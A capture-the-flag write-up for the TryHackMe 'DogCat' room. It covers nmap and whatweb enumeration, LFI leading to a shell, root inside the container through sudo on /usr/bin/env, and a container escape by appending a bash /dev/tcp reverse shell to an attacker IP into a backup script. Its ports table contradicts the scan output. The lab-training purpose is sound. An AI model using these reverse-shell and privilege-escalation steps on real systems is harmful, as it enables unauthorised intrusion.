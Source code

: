 ```yaml
---
title: "DogCat CTF"
image: /room_image.webp
categories: [CTFs ,Tryhackme]
tags: [tryhackme ,local file inclusion ,docker ,privilege escalation ,nmap ,whatweb ]
media_subpath: /images/dogcat-ctf
author: <author_id>
---
```


This Capture the Flag (CTF) challenge invites participants to explore and exploit a **PHP-based** web application designed to showcase images of cats and dogs, uncovering vulnerabilities beneath its seemingly benign exterior. Your objective is to identify and leverage a **Local File Inclusion** (LFI) flaw, enabling access to sensitive files and deeper system insights. Beyond this, you must demonstrate advanced exploitation skills by escaping the constraints of a **Docker** containerized environment, simulating real-world scenarios where attackers pivot from web-layer vulnerabilities to host-level exploitation. This challenge sharpens skills in web application security, container escape techniques, and lateral movement in constrained environments.

----

## **Enumeration - Nmap Scan**

```console
root@ip-10-10-250-210:~# nmap -n -sC -sV -p- -T4 10.10.234.138

Starting Nmap 7.60 ( https://nmap.org ) at 2024-11-18 15:06 GMT

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (EdDSA)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
MAC Address: 02:09:A9:08:AE:5B (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 15:26
Completed NSE at 15:26, 0.00s elapsed
Initiating NSE at 15:26
Completed NSE at 15:26, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1227.11 seconds
           Raw packets sent: 125333 (5.515MB) | Rcvd: 355432 (58.904MB)
```
### **Open Ports**

| Ports | Services | Version                      |
| ----- | -------- | ---------------------------- |
| 22    | SSH      | OpenSSH 8.2  Ubuntu          |
| 80    | HTTP     | SimpleHTTP/0.6 Python/3.11.2 |

![Desktop View](/webpage-80.webp){: width="1200" height="450" }

Let's see the code source of the pages you can use inspector in the web browser or just used `view-source:<URL>` example view-source:example.com

![Desktop View](/source-code.webp){: width="1200" height="450" }

{% include embed/video.html src='/explained-video.mp4' loop=true %}

## **WebPage Enumeration**

```console
root@ip-10-10-250-210:~# whatweb http://10.10.234.138
http://10.10.234.138 [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[10.10.234.138], PHP[7.4.3], Title[dogcat], X-Powered-By[PHP/7.4.3]
```

> you can use Wappalyzer : extension used to identify the technologies powering websites
{: .prompt-tip}

**Information :**
1. Apache[2.4.38]
2. HTTPServer[Debian Linux]
3. PHP[7.4.3]

> you can do some research about this information to find if there are any vulns can you used
{: .prompt-tip}


## **Reverse Shell From LFI**

![Desktop View](/ls-dogcat-ctf.webp){: width="1200" height="450" }
![Desktop View](/reverse-shell-dogcat-ctf.webp){: width="1200" height="450" }

```console 
www-data@1e8fecd5cd10:/var/www/html$ ls
ls
cat.php
cats
dog.php
dogs
flag.php
index.php
style.css
www-data@1e8fecd5cd10:/var/www/html$ cat flag.php
cat flag.php
<?php
$flag_1 = "THM{**********************}"
?>
www-data@1e8fecd5cd10:/var/www/html$ cd ..
www-data@1e8fecd5cd10:/var/www/html$ ls
flag2_QMW7JvaY2LvK.txt

```

```console
www-data@1e8fecd5cd10:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on 1e8fecd5cd10:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 1e8fecd5cd10:
    (root) NOPASSWD: /usr/bin/env

```

```console
www-data@1e8fecd5cd10:/var/www/html$ sudo /usr/bin/env /bin/bash

pwd
/root
ls      
flag3.txt
cat flag3.txt

```
```console
ls -al
.
..
.dockerenv
...

```

```console
ls opt
backups
cd opt/backups
ls
backup.sh
backup.tar
cat backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```
So now we just need another reverse shell after we need to add `echo "bash -i >& /dev/tcp/<IP_attacker>/<Port> 0>&1" backup.sh"`
 
 ```console 
 root@dogcat:~# ls
 ls
container
flag4.txt
cat flag4.txt
```